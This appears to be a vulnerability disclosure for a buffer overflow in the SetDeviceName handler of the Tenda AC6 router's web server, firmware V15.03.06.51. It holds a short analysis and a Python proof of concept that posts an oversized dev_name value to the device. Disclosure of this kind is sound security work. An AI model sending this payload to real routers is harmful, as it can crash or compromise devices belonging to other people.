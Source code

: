 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/SetDeviceName

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](2.png)

get value from devName ,send to set_device_name

![](3.png)

and dont send the mac ,we can get into else

finally call snprint ,dont check the length ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetDeviceName"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'dev_name': payload})
``` 
